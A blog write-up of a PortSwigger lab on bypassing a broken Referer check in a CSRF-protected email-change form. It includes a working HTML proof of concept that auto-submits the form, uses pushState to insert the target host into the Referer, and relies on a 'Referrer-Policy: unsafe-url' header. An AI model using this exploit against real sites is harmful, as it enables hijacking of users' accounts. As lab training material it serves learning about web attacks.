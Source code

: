 ```yaml
---
layout: post
title:  "CSRF with broken Referer validation"
date:   2024-10-04 09:39:54 +0530
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter` 

## Solution 

Just like the other CSRF labs, we have a unctionality to update the email by looking into `My Account` tab 

![]({{ site.baseurl }}/assets/images/csrf-26.png)

I thought of removing the values of `Referrer` header and analyse the response.. So I did this by removing the values of the particular, sent the request and responded with `"Invalid referer header"`

![]({{ site.baseurl }}/assets/images/csrf-27.png)

In the `Referrer` header, I replaced with the following `http://evil.com/@0a78008403f3e9d780764e88003000c0.web-security-academy.net` and the reason is `evil.com` is some random string from my side and for example I gave it.. Then you can observe a lab URL that's the thing being validated here and sent the request, as a response it responded with a `302` meaning our email got updated 

![]({{ site.baseurl }}/assets/images/csrf-28.png)

Everything goes well right, now we can build a CSRF POC and update the `pushState` by adding our payload that we used in the referrer header 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a78008403f3e9d780764e88003000c0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker&#46;s&#64;outlook&#46;in" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/@0a78008403f3e9d780764e88003000c0.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Now, In the exploit server.. Paste the following POC and then in the header.. Add like `Referrer-Policy: unsafe-url` where it will allow the full url through the referrer header.. Then `Store -> Deliver the exploit to victim` which will actually solves the lab 

![]({{ site.baseurl }}/assets/images/csrf-29.png)